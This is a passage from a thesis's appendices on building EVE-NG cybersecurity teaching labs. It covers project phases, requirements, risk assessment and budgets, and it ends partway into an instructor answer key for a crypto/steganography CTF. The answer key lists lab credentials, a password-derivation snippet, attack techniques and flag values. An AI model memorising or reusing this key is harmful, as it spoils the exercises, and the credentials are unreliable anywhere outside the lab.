\begin{itemize}
\tightlist
\item
  Other courses related to cybersecurity
\item
  Research projects in computer security
\item
  Continuing education and professional certifications
\end{itemize}

\paragraph{External Scope}

\begin{itemize}
\tightlist
\item
  Educational institutions with training programmes in cybersecurity
\item
  Specialised vocational training centres
\item
  Companies with internal security training programmes
\end{itemize}

\cleardoublepage
\chapter{App G --- Activity Detail and Quality Assurance}

\section{App G --- Activity Detail and QA}

This appendix expands the phase summaries in Chapter with full activity lists, quality assurance procedures, and documentation and version control practices.

\subsection{Detailed Phase Activity Lists}

\subsubsection{Phase 0: Preparation and Infrastructure (July--November 2025)}

\begin{itemize}
\tightlist
\item
  HomeLab infrastructure initialisation (Proxmox, networking, storage)
\item
  Development environment setup (VSCode, LaTeX, Git)
\item
  Security tools installation (Parrot OS Security, Metasploit, Burp Suite)
\item
  Technical documentation and baseline establishment
\end{itemize}

\textbf{Deliverables}: Fully operational virtualisation infrastructure; development environment configuration; baseline documentation of system architecture.

\textbf{Duration}: 105 hours

\subsubsection{Phase 1: Preliminary Project and Conceptual Design (October 2025--January 2026)}

\begin{itemize}
\item
  \textbf{SMART Objectives Definition} (4h) --- Specification of Main Objective (MO): develop a reusable teaching package. Definition of 4 Specific Objectives (OE1--OE4) with measurable KPIs. Alignment with institutional GEISI curriculum requirements.
\item
  \textbf{State of the Art Analysis} (15h) --- Comprehensive review of 7 major cybersecurity training platforms (HackTheBox, TryHackMe, Cisco Academy, SEED Labs, GOAD, VulnHub, Hack4u). Identification of pedagogical gaps. Comparative analysis matrix across multiple dimensions.
\item
  \textbf{Functional and Non-Functional Requirements} (10h) --- RF1: design and implement 4 EVE-NG topologies (.unl files). RF2: implement vulnerabilities per PTES, OWASP, NIST, and CEH standards. RF3: create structured assessment materials and rubrics. NFR1--NFR3 covering performance, framework compliance, and institutional sustainability.
\item
  \textbf{Pentesting Methodology and Validation Framework} (8h) --- Adaptation of PTES for educational context. Definition of ethical hacking principles (EC-Council CEH). Mapping of attack phases to lab objectives. Validation criteria for security effectiveness.
\item
  \textbf{Design Decisions Justification} (5h) --- Rationale for EVE-NG selection vs alternative platforms. Technology stack justification (Parrot OS Security, Metasploit, Burp, OWASP ZAP). Pedagogical approach: hands-on labs with automation.
\item
  \textbf{Risk Analysis and Mitigation Planning} (15h) --- Identification of 12+ project risks (technical, pedagogical, institutional). Assessment of impact and probability. Definition of mitigation strategies.
\item
  \textbf{Resource Inventory and Allocation} (5h) --- Hardware requirements: dual-socket server with Proxmox. Software stack: EVE-NG Community Edition, Parrot OS Security images, security tools. Human resources: student ( 820h total), faculty supervisor. Budget considerations and open-source alternatives.
\item
  \textbf{Gantt Chart and Critical Path Analysis} (20h) --- Development of detailed project timeline with 37 tasks. Identification of 13 critical path tasks. CSV export and interactive web-based visualisation. Progress tracking and milestone definition.
\end{itemize}

\textbf{Deliverables}: Formal project proposal (Preliminary Project); detailed Gantt chart with critical paths; risk register and mitigation plan; requirements specification (functional and non-functional).

\textbf{Duration}: 82 hours

\subsubsection{Phase 2: Implementation and Interim Validation (January--March 2026)}

\begin{itemize}
\item
  \textbf{Lab 1: Reconnaissance Development} (14h research + 20h dev) --- Scenario: intelligence gathering phase using PTES framework. Tools: Nmap, passive reconnaissance techniques. Topology: multi-tier network with passive monitoring capabilities. Validation: successful execution of reconnaissance workflow.
\item
  \textbf{Lab 2: Web Vulnerabilities Development} (14h research + 25h dev) --- Scenario: OWASP Top 10 vulnerability exploitation. Tools: Burp Suite, OWASP ZAP, manual testing techniques. Topology: web application server with vulnerable services. Validation: exploitation success and reporting accuracy.
\item
  \textbf{Lab 3: Incident Response Development} (14h research + 25h dev) --- Scenario: log forensics and incident response (NIST SP 800-61 standards). Tools: Wireshark, tcpdump, network enumeration tools. Topology: multi-segment network with pre-staged attack artefacts. Validation: successful timeline reconstruction and flag recovery.
\item
  \textbf{Pilot Validation with Users} (20h + 6h revision) --- Informal testing sessions with 4--5 GEISI students conducted as each lab is completed. Usability observations and timing notes. Post-session survey on satisfaction, difficulty, and guide clarity. Adjustments applied based on participant feedback.
\item
  \textbf{Topology Adjustments and Optimisation} (30h) --- Performance tuning based on pilot feedback. VM image optimisation and deployment time reduction. Network configuration refinement for stability.
\item
  \textbf{Teaching Material Production} (40h) --- Student lab guide PDF (student lab guide) per lab: task description, objectives, hints, and tool reference. Instructor resolution guide PDF (instructor solution guide) per lab: one possible walkthrough, flag values, assessment rubric, and common errors. Technical configuration reference per lab in the repository.
\end{itemize}

\textbf{Deliverables}: 3 fully functional EVE-NG labs; student and instructor guides; pilot validation report; technical configuration references.

\textbf{Duration}: 188 hours

\subsubsection{Phase 3: Completion and Final Validation (March--May 2026)}

\begin{itemize}
\item
  \textbf{Lab 4: CipherStrike --- Cryptography \& Steganography} (16h research + 30h dev) --- Scenario: multi-server CTF with cryptography (ROT13, AES-ECB, Vigen\'{e}re, XOR, RSA small exponent) and steganography (EXIF, LSB, steghide) challenges across three servers with a gate mechanism. Tools: Python cryptanalysis, steghide, exiftool, gmpy2. Topology: ServerA (crypto), ServerB (stego), ServerC (gated advanced mix), Defender (SOC monitoring). Validation: 14 flags verified end-to-end, gate mechanism (MD5 of A5+B5) tested.
\item
  \textbf{Comprehensive Penetration Testing} (30h Round 1 + 25h Round 2) --- Round 1: sequential testing of Labs 1, 2, and 3. Round 2: integrated testing across all 4 laboratories. Documentation of all findings and remediation strategies.
\item
  \textbf{Automation Scripts Development} (30h) --- Utility scripts (Bash/Python) for recurring lab management tasks: bridge configuration, ISO upload, and connectivity check scripts. Scripts documented and tested in the project EVE-NG environment.
\item
  \textbf{Final User Validation and Iteration} (18h) --- Final informal validation sessions with the pilot group (4--5 participants). Collection of post-session survey data and usability notes. Implementation of final adjustments based on feedback.
\item
  \textbf{Bachelor's Thesis Report Writing and Finalisation} (90h) --- Phase I (15h): Introduction, Objectives, Literature Review. Phase II (40h): Methodology, Requirements, Implementation Results. Phase III (35h): Validation, Analysis, Conclusions. Final revision, bibliography integration, and publication preparation (35h).
\end{itemize}

\textbf{Deliverables}: 4 fully functional labs; utility automation scripts; final bachelor's thesis report; pilot validation report; deployment package ready for institutional use.

\textbf{Duration}: 315 hours

\subsection{Quality Assurance Procedures}

\subsubsection{Technical Validation}

\begin{itemize}
\tightlist
\item
  Automated testing of lab deployment and reset
\item
  Manual security testing and penetration verification
\item
  Performance benchmarking against KPI targets
\item
  Compatibility testing across EVE-NG versions
\end{itemize}

\subsubsection{Pedagogical Validation}

\begin{itemize}
\tightlist
\item
  Alignment with GEISI learning outcomes
\item
  Assessment of student understanding through rubrics
\item
  Effectiveness in achieving educational objectives
\item
  Feedback from faculty and student participants
\end{itemize}

\subsubsection{Usability Testing}

\begin{itemize}
\tightlist
\item
  User interface and documentation clarity
\item
  Accessibility and ease of deployment
\item
  Support and documentation adequacy
\item
  User satisfaction scoring (≥ 4/5 target)
\end{itemize}

\subsection{Documentation and Version Control}

\begin{itemize}
\tightlist
\item
  GitHub repository (\texttt{TheEgea/TFG}) for all code, scripts, and documentation, licensed under CC BY-NC-SA 4.0
\item
  LaTeX (XeLaTeX + OpenDyslexic) for formal academic documentation (Memory and Appendices)
\item
  MkDocs Material for the operational web documentation site
\item
  Versioning system for all deliverables with semantic commit messages
\item
  Change logs and improvement tracking through pull requests
\item
  Deployment guides and runbooks per lab
\end{itemize}

\cleardoublepage
\chapter{App H --- Requirements Detail}

\section{App H --- Requirements Detail}

This appendix expands the requirements in Chapter with the full sub-requirement specifications for each functional requirement (RF), technological requirement (TR), and non-functional requirement (NFR).

\subsection{Functional Requirements: Sub-Specifications}

\subsubsection{RF1: Design and Implement EVE-NG Topologies}

\begin{itemize}
\tightlist
\item
  \textbf{RF1.2}: Each topology must include:
\item
  Minimum 5--8 virtual machines per lab
\item
  Realistic network architecture (DMZ, internal networks, monitoring zones)
\item
  Vulnerable services configured per OWASP and NIST standards
\item
  Network segmentation with VLANs where appropriate
\item
  \textbf{RF1.3}: EVE-NG compatibility requirements:
\item
  .unl file format compatible with EVE-NG Community Edition
\item
  Additional compatibility with EVE-NG Professional Edition
\item
  KVM hypervisor support (Ubuntu 20.04+ LTS)
\item
  Minimum host specification: 16 GB RAM, 200 GB storage
\item
  \textbf{RF1.4}: Topology documentation:
\item
  Network diagram for each lab (logical and physical views)
\item
  IP addressing scheme documented
\item
  Service inventory and port mappings
\item
  Attack surface identification and justification
\end{itemize}

\subsubsection{RF2: Implement Vulnerabilities and Attack Scenarios}

\begin{itemize}
\tightlist
\item
  \textbf{RF2.5}: Vulnerability implementation standards:
\item
  All vulnerabilities must be fixable by administrators
\item
  No permanently broken or unrecoverable systems
\item
  Clear reset procedure for each vulnerability state
\item
  Automated scanning tools must successfully identify vulnerabilities
\end{itemize}

\subsubsection{RF3: Create Structured Assessment Materials}

\begin{itemize}
\tightlist
\item
  \textbf{RF3.3}: Support materials:
\item
  Student lab manuals with step-by-step guidance
\item
  Teacher guides with deployment and customisation instructions
\item
  Expected outcomes and common pitfalls documentation
\item
  Troubleshooting guides for common technical issues
\item
  \textbf{RF3.4}: Validation materials:
\item
  Automated validation scripts to verify successful lab completion
\item
  Manual verification procedures for educators
\item
  Documentation of success indicators
\end{itemize}

\subsection{Technological Requirements: Sub-Specifications}

\subsubsection{TR1: Virtualisation Infrastructure}

\begin{itemize}
\tightlist
\item
  \textbf{TR1.2}: Hypervisor:
\item
  Primary: KVM (Kernel-based Virtual Machine)
\item
  Host OS: Ubuntu Server 20.04 LTS or 22.04 LTS
\item
  QEMU integration for VM management
\item
  Nested virtualisation support for advanced scenarios
\item
  \textbf{TR1.4}: Network configuration:
\item
  Layer 2 switching capabilities within EVE-NG
\item
  VLAN support for network segmentation scenarios
\item
  IPv4 and IPv6 support
\end{itemize}

\subsubsection{TR2: Security Tools and Penetration Testing Framework}

\begin{itemize}
\tightlist
\item
  \textbf{TR2.4}: Compliance and documentation:
\item
  All tools must be freely available or have educational licences
\item
  Open-source preference for long-term sustainability
\item
  Tool version specifications documented
\item
  Legal and ethical use guidelines included
\end{itemize}

\subsubsection{TR3: Scripting and Automation}

\begin{itemize}
\tightlist
\item
  \textbf{TR3.3}: Integration points:
\item
  EVE-NG API integration for programmatic lab management
\item
  Webhook support for event-driven automation
\item
  Container orchestration (Docker) for microservices
\item
  Version control integration (Git, GitHub)
\end{itemize}

\subsection{Non-Functional Requirements: Detailed Subsections}

\subsubsection{NFR1: Performance and Efficiency}

\textbf{NFR1.1 -- Deployment Performance}: - Lab deployment time ≤ 2 minutes from topology load to ready state - VM boot time ≤ 90 seconds per VM (95\% - Reset operation ≤ 30 seconds to restore to initial state - Concurrent lab instances: support minimum 5 simultaneous labs

\textbf{NFR1.2 -- Resource Optimisation}: - VM image sizes ≤ 5 GB per image (compressed) - Memory footprint ≤ 6 GB per lab instance during execution - Minimal external dependencies (all local simulation)

\textbf{NFR1.3 -- Scalability}: - Current infrastructure supports 3--4 concurrent instances on the project HomeLab server - Architecture horizontally scalable: additional EVE-NG nodes can be added - EVE-NG Professional Edition supports larger concurrent deployments

\subsubsection{NFR2: Compliance with Security Frameworks}

\textbf{NFR2.1 -- NIST Cybersecurity Framework} : Core Functions (Identify, Protect, Detect, Respond, Recover) mapped to lab exercises; assessment procedures aligned with NIST guidelines.

\textbf{NFR2.2 -- CIS Critical Controls} : Controls 1--18 incorporated where pedagogically appropriate; assessment rubrics aligned with CIS benchmarks; remediation procedures follow CIS recommendations.

\textbf{NFR2.3 -- OWASP Standards} : OWASP Top 10 fully covered; OWASP Testing Guide methodology integrated; development practices reflected in lab design.

\textbf{NFR2.4 -- Penetration Testing Standards} : PTES phases mapped to labs; CEH curriculum alignment; ethical hacking principles strictly enforced.

\subsubsection{NFR3: Reliability and Availability}

\textbf{NFR3.1 -- System Reliability}: - MTBF ≥ 100 hours continuous operation - MTTR ≤ 5 minutes - Scenario reproducibility: 100\% - Zero critical bugs at release

\textbf{NFR3.2 -- Data Integrity}: No unintended data loss during lab operations; snapshot and restore functionality; backup procedures for sensitive configurations.

\textbf{NFR3.3 -- Availability}: Planned maintenance windows weekends only; system availability ≥ 99\% instructional periods; graceful degradation if resources become limited.

\subsubsection{NFR4: Security and Ethical Compliance}

\textbf{NFR4.1 -- Educational Sandbox Isolation}: Complete network isolation from production systems; no outbound internet access from lab environments; contained attack scenarios (no external targets).

\textbf{NFR4.2 -- Access Control and Accountability}: Role-based access control (RBAC) for lab management; audit logs of all student actions where applicable; clear identification of authorised vs.~unauthorised activities.

\textbf{NFR4.3 -- Ethical Guardrails}: Mandatory ethics training before lab access; written agreements regarding responsible use; monitoring and escalation procedures for suspicious activities.

\subsubsection{NFR5: Usability and Support}

\textbf{NFR5.1 -- Ease of Use}: Average faculty deploy time 5--10 minutes; intuitive web interface with clear navigation; minimal technical prerequisites for students.

\textbf{NFR5.2 -- Documentation and Support}: Comprehensive user manuals and quick-start guides; FAQ documentation; responsive support channel.

\textbf{NFR5.3 -- Accessibility}: WCAG 2.1 Level AA compliance for web interfaces; screen reader compatibility; keyboard navigation support; clear contrast ratios.

\subsubsection{NFR6: Institutional Sustainability}

\textbf{NFR6.1 -- Long-term Maintainability}: All components open-source or freely available; no vendor lock-in; source code in GitHub with clear documentation; backward compatibility with older EVE-NG versions where feasible.

\textbf{NFR6.2 -- Curriculum Alignment}: Explicit mapping to GEISI degree learning outcomes; integration with existing course structures; flexible customisation for different instructional contexts.

\textbf{NFR6.3 -- Scalability for Institutional Adoption}: Deployable on institutional infrastructure (not SaaS-dependent); support for multiple faculty deployments simultaneously; resource reservation and scheduling capabilities.

\cleardoublepage
\chapter{App I --- Feasibility: Task Lists and Risk Assessment}

\section{App I --- Feasibility: Task Lists and Risk Assessment}

This appendix complements Chapter with the full per-phase task lists (task IDs, estimated hours, critical path flags) and the five-phase NIST SP 800-30 risk assessment that underpins the risk matrix in that chapter.

\subsection{Phase Task Lists}

\subsubsection{Phase 0: Preparation (July--November 2025)}

\begin{itemize}
\tightlist
\item
  Task 0.1: HomeLab Initialisation Setup (64h)
\item
  Task 0.2: VSCode Setup for thesis development (18h)
\item
  Task 0.3: Parrot OS Security Setup and Basic Tools (15h)
\item
  Task 0.4: Home Lab As-Built Documentation (8h)
\end{itemize}

\textbf{Duration}: 105 hours

\subsubsection{Phase 1: Preliminary Project (October 2025--January 2026)}

\begin{itemize}
\tightlist
\item
  Task 1.0: Thesis Development (22h)
\item
  Task 1.1: SMART Objectives Definition (4h)
\item
  Task 1.2: State of the Art: Frameworks and Tools (15h)
\item
  Task 1.3: Functional and Non-Functional Requirements (10h)
\item
  Task 1.4: Pentesting Methodology and Validation (8h) --- \textbf{CRITICAL}
\item
  Task 1.5: Design Decisions and Justification (5h)
\item
  Task 1.6: Gantt Chart Development (20h)
\item
  Task 1.7: Risk Analysis and Mitigation Plan (15h)
\item
  Task 1.8: Resource Inventory (5h)
\item
  \textbf{Milestone 1.10}: Preliminary Project (40h) --- \textbf{Delivery: January 16, 2026}
\end{itemize}

\textbf{Duration}: 82 hours

\subsubsection{Phase 2: Interim Report (January--March 2026)}

\begin{itemize}
\tightlist
\item
  Task 2.1: Lab 1 Research --- Reconnaissance (14h) --- \textbf{CRITICAL}
\item
  Task 2.2: Lab 2 Research --- Web Vulnerabilities (14h) --- \textbf{CRITICAL}
\item
  Task 2.3: Lab 3 Research --- Network Analysis/IR (14h) --- \textbf{CRITICAL}
\item
  Task 2.4: Technical Write-ups Labs 1 \& 2 (13h)
\item
  Task 2.5: Topology Adjustments (30h)
\item
  Task 2.6: Pre-validation with Pilot Users (20h) --- \textbf{CRITICAL}
\item
  Task 2.6.1: Pre-validation Revision (6h) --- \textbf{CRITICAL}
\item
  Task 2.7: Analyse and Write Hackathon Results (17h)
\item
  Task 2.8: Interim Report Formalisation (40h)
\item
  Task 2.9: Set Up Servers, VMs, and EVE-NG (20h)
\item
  Task 2.10: Backup and Documentation of EVE-NG (10h)
\item
  \textbf{Milestone 2.11}: Intermediate Thesis (50h) --- \textbf{Delivery: March 20, 2026}
\end{itemize}

\textbf{Duration}: 212 hours

\subsubsection{Phase 3: Final Delivery (March--May 2026)}

\begin{itemize}
\tightlist
\item
  Task 3.1: Lab 4 Research --- Post-Exploitation (16h) --- \textbf{CRITICAL}
\item
  Task 3.2: Lab 3 Validation with Users (12h)
\item
  Task 3.3: Technical Write-ups Labs 3 \& 4 (19h)
\item
  Task 3.4: Penetration Testing Round 1 (Labs 1--2--3) (30h) --- \textbf{CRITICAL}
\item
  Task 3.5: Penetration Testing Round 2 (All Labs) (25h) --- \textbf{CRITICAL}
\item
  Task 3.6: Python Automation Scripts (30h)
\item
  Task 3.7: Final Validation with Pilot Users (18h)
\item
  Task 3.8: Final Review and Project Polishing (25h)
\item
  Task 3.9: Bachelor's Thesis Report Writing I (15h) --- \textbf{CRITICAL}
\item
  Task 3.10: Bachelor's Thesis Report Writing II (40h) --- \textbf{CRITICAL}
\item
  Task 3.11: Bachelor's Thesis Report Writing III (35h) --- \textbf{CRITICAL}
\item
  Task 3.12: Final Revision (15h)
\item
  Task 3.13: Final Report Preparation (20h)
\item
  \textbf{Milestone 3.14}: Final Report (5h) --- \textbf{Delivery: May 27, 2026}
\end{itemize}

\textbf{Duration}: 315 hours

\subsection{NIST SP 800-30 Five-Phase Risk Assessment}

This section details the systematic risk assessment following NIST SP 800-30. The summary risk matrix is provided in Table in Chapter .

\subsubsection{Phase 1: Asset Identification and Scope Definition}

Critical assets are categorised by CIA triad:

\textbf{Hardware Assets}: - HomeLab server (2× Xeon E5-2680v4, 64 GB RAM) --- Availability critical - Development workstations (laptop + desktop) --- Integrity critical - Network equipment (router, switch) --- Availability critical - External storage (backup) --- Confidentiality + Availability critical

\textbf{Software Assets}: - EVE-NG Community Edition --- Availability critical - Parrot OS Security distribution --- Integrity critical - Vulnerable VMs (Metasploitable, DVWA) --- Integrity critical - Development tools (VSCode, Git, LaTeX) --- Integrity critical

\textbf{Data Assets}: - Thesis source code and documentation --- Confidentiality + Integrity critical - Lab topology configurations --- Integrity + Availability critical - Student learning materials --- Availability critical - Project research findings --- Confidentiality + Integrity critical

\textbf{Scope}: Infrastructure and technical risks within the controlled laboratory environment. Excluded: organisational, regulatory, and external threats beyond the academic context.

\subsubsection{Phase 2: Threat and Vulnerability Identification}

\textbf{Threat categories (NIST SP 800-30)}: - \textbf{Hardware Threats}: Disk failures, power supply degradation, CPU overheating, memory exhaustion - \textbf{Software/Configuration Threats}: Outdated VM images, incompatible versions, configuration drift, EVE-NG crashes - \textbf{Knowledge Gap Threats}: Insufficient expertise in advanced networking, virtualisation optimisation, security best practices - \textbf{Resource Constraint Threats}: Limited RAM for simultaneous VM operations, storage capacity limits - \textbf{Integration Threats}: EVE-NG network compatibility issues, tool interoperability - \textbf{Data Loss Threats}: Accidental deletion, corruption, hardware failure

\textbf{Key vulnerabilities}: - Aging server components (end-of-life approaching) - Single point of failure --- no infrastructure redundancy - EVE-NG Community Edition has no commercial support - Limited RAM capacity for production-scale virtualisation - Inadequate documentation of network topology state - Limited backup redundancy (single backup location)

\subsubsection{Phase 3: Impact and Likelihood Analysis}

Scales follow NIST SP 800-30: Probability (Low \textless25 Impact (Low: minor delays, Medium: project delays, High: project jeopardy).

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.17\linewidth}
  >{\raggedright\arraybackslash}p{0.17\linewidth}
  >{\raggedright\arraybackslash}p{0.17\linewidth}
  >{\raggedright\arraybackslash}p{0.17\linewidth}
  >{\raggedright\arraybackslash}p{0.17\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
\textbf{Risk Scenario}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Prob.}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Impact}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Level}
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
\textbf{Primary Asset}
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
EVE-NG Performance Issues & Medium & High & HIGH & Infrastructure, Labs \\
VM Image Incompatibility & Medium & Medium & MEDIUM & Development, Labs \\
Knowledge Gaps (advanced net.) & Medium & Medium & MEDIUM & Development, Timeline \\
Hardware Degradation / Disk Failure & Low & High & MEDIUM & Infrastructure \\
Data Loss (insufficient backup) & Low & High & MEDIUM & Documentation \\
Configuration Documentation Gaps & Medium & Medium & MEDIUM & Operations \\
\end{longtable}}

\subsubsection{Phase 4: Risk Evaluation and Prioritisation}

\textbf{HIGH Priority}: EVE-NG Performance Issues --- infrastructure bottlenecks causing lab functionality failures. Medium probability, high impact. Requires immediate resource optimisation and monitoring implementation.

\textbf{MEDIUM Priority}: - VM Incompatibility --- disparate image formats causing integration problems - Knowledge Gaps --- experience gaps in advanced networking/virtualisation - Configuration Documentation --- inadequate topology documentation - Data Loss --- insufficient backup redundancy (single point of failure)

\textbf{LOW Priority}: Hardware Degradation --- aging components manageable through preventive maintenance.

\subsubsection{Phase 5: Mitigation Strategies}

\textbf{EVE-NG Performance Issues (REDUCTION)}: - Hardware dimensioning: 64 GB RAM dedicated to the server running EVE-NG (32 GB proved insufficient --- additional module acquired, 80\,€) - Resource optimisation: memory tuning, VM suspension when idle - Documented fallback: VirtualBox as alternative hypervisor if critical failure - \emph{Result}: Probability reduced from Medium to Low

\textbf{VM Incompatibility (PREVENTION)}: - Early testing: validate all images in target environment before use - Format standardisation: QCOW2 for EVE-NG compatibility - Alternative repositories maintained (VulnHub, GitHub) - \emph{Result}: Probability reduced from Medium to Low

\textbf{Knowledge Gaps (PREVENTION + REDUCTION)}: - Structured learning: Task 1.2 (15h) comprehensive framework research - Continuous upskilling during lab research phases (Tasks 2.1--3.1) - Expert consultation with tutor Pere Vidiella i Catalan - Technical references: NIST, OWASP - \emph{Result}: Impact reduced from Medium to Low-Medium

\textbf{Configuration Documentation (PREVENTION)}: - Continuous documentation: update topology diagrams during development - Automated export: EVE-NG built-in topology export - Version control: all network configs via Git repository - \emph{Result}: Probability reduced from Medium to Low

\textbf{Data Loss (REDUCTION)}: - Daily automated encrypted backups to external storage - Version control: full Git history on GitHub - Off-site cloud backup (student account) - \emph{Result}: Probability Low, Impact Low

\textbf{Hardware Degradation (PREVENTION)}: - Quarterly hardware diagnostics (disk health, temperature monitoring) - Automated S.M.A.R.T. alerts for disk errors and CPU temperature thresholds - Component procurement plan with 6-month horizon for critical parts

\textbf{Risk Assessment Conclusion}: All identified risks have been systematically evaluated and assigned concrete mitigation strategies. No individual risk is considered project-blocking.

\subsection{Detailed Budget Tables}

\subsubsection{Software and Licences}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
\textbf{Resource} & \textbf{Licence Type} & \textbf{Unit} & \textbf{Total} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
EVE-NG Community Edition & Free/Open Source & 0\,€ & 0\,€ \\
Parrot OS Security & Free/Open Source & 0\,€ & 0\,€ \\
Proxmox VE & Free/Open Source & 0\,€ & 0\,€ \\
Metasploitable VMs & Free/Open Source & 0\,€ & 0\,€ \\
DVWA & Free/Open Source & 0\,€ & 0\,€ \\
Visual Studio Code & Free/Open Source & 0\,€ & 0\,€ \\
LaTeX (TeX Live) & Free/Open Source & 0\,€ & 0\,€ \\
Git + GitHub (Student) & Free/Student & 0\,€ & 0\,€ \\
Burp Suite Community & Free & 0\,€ & 0\,€ \\
Wireshark & Free/Open Source & 0\,€ & 0\,€ \\
\textbf{SUBTOTAL Software} & & & \textbf{0\,€} \\
\end{longtable}}

\subsubsection{Other Operational Costs}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
\textbf{Concept} & \textbf{Cost} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Electricity (820\,h × 0.15\,kWh × 0.20\,€/kWh) & 25\,€ \\
Internet connectivity (9 months × 40\,€/month) & 360\,€ \\
Documentation printing and binding (3 copies) & 60\,€ \\
Contingency fund (5 & \\
\textbf{TOTAL Other Costs} & \textbf{1,}080\,€ \\
\end{longtable}}

\textbf{Note}: The total budget summary in Chapter (Table ) uses a rounded figure of 1,020\,€ for other costs, reflecting the exclusion of the contingency fund from the base estimate.

\cleardoublepage
\chapter{App J --- Lab 4: CipherStrike Instructor Reference}

\section{App J --- Lab 4: CipherStrike Instructor Reference}

This appendix provides the deployment and configuration reference for Lab 4 (Cryptography and Steganography CTF). It is intended for instructors and system administrators responsible for setting up, resetting, and grading the lab.

The student-facing challenge guide is at \href{../../labs/lab4/index.md}{EVE-NG Labs $\rightarrow$ LAB4}.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Credentials and Access}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
Node
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Username
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Password
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Access
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
pfSense-LAB4 & admin & \texttt{pfsense} & Web GUI / SSH \\
VyOS-LAB4 & vyos & \texttt{vyos} & EVE-NG console \\
ServerA & admin & \texttt{N3xaTech!} & SSH 10.10.1.10 \\
ServerB & sysop & \texttt{S3cure24!} & SSH 10.10.2.10 \\
ServerC & devops & \texttt{fa681b59855d} & SSH 10.10.3.10 (derived --- see below) \\
Defender & lab4 & \texttt{L4b4} & EVE-NG VNC \\
\end{longtable}}

\begin{lstlisting}
The ServerC password is derived from flags A5 and B5.
Students must solve both modules before accessing ServerC.
The decoy `D3vOps24!` appears in some materials intentionally.
\end{lstlisting}

\textbf{Derivation:} \path{md5(A5_flag + B5_flag){[}:12{]} = fa681b59855d}

\begin{lstlisting}
import hashlib
a5 = "H4U"
b5 = "H4U"
password = hashlib.md5((a5 + b5).encode()).hexdigest()[:12]
# -> fa681b59855d
\end{lstlisting}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Network Segments}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
Segment
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Subnet
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Gateway
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Purpose
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
WAN & 192.168.0.0/24 & 192.168.0.1 & pfSense WAN (DHCP $\rightarrow$ 192.168.0.18) \\
Net-Link & 192.168.1.0/24 & 192.168.1.1 & pfSense $\leftrightarrow$ VyOS \\
Zone-A & 10.10.1.0/24 & 10.10.1.1 & ServerA --- Cryptography \\
Zone-B & 10.10.2.0/24 & 10.10.2.1 & ServerB --- Steganography \\
Zone-C & 10.10.3.0/24 & 10.10.3.1 & ServerC --- Advanced Mix \\
Zone-Defense & 10.10.4.0/24 & 10.10.4.1 & Defender \\
\end{longtable}}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Challenge Inventory}

\subsubsection{\texorpdfstring{ServerA --- Cryptography ({\ttfamily /home/admin/mensajes/})}{ServerA --- Cryptography (/home/admin/mensajes/)}}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
ID
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
File
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Technique
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Flag
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
A1 & \path{A1_mensaje_interceptado.txt} & ROT13 & \texttt{H4U} \\
A2 & \path{A2_oracle.py} + \path{A2_admin_cipher.b64} & AES-ECB oracle & \texttt{H4U} \\
A3 & \path{A3_documento_clasificado.txt} & Vigenère + Kasiski (key: NEXATECH) & \texttt{H4U} \\
A4 & \path{A4_mensaje_xor.hex} & XOR repeating key + crib-dragging & \texttt{H4U} \\
A5 * & \path{A5_rsa_challenge.txt} & RSA e=3 cube root (\texttt{gmpy2.iroot}) & \texttt{H4U} \\
\end{longtable}}

Dependencies: \texttt{pycryptodome\ 3.23.0}, \texttt{gmpy2\ 2.1.5}

\subsubsection{\texorpdfstring{ServerB --- Steganography ({\ttfamily /srv/public/uploads/})}{ServerB --- Steganography (/srv/public/uploads/)}}

{\footnotesize\begin{longtable}[]{@{}
